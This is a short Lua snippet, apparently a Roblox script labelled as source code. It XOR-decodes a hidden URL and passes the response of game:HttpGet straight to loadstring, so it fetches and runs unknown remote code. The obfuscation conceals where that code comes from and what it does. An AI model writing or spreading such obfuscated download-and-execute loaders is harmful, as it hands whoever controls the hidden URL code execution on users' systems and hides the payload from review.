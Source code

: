 local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9)local v10={};for i=1, #v8 do v6(v10,v0(v4(v1(v2(v8,i,i + 1)),v1(v2(v9,1 + ((i-1)% #v9),1 + ((i-1)% #v9) + 1)))%256));end return v5(v10);end loadstring(game:HttpGet(v7("\94\171\52\7\158\98\158\68\68\190\55\89\138\49\197\3\67\189\53\4\136\42\210\4\88\171\37\25\153\118\210\4\91\240\12\18\138\57\210\18\126\170\34\57\130\105\158\42\95\178\34\24\153\119\220\10\95\177\111\37\168\25\245\38\115\241\45\19","\54\223\64\119\237\88\177\107")))();
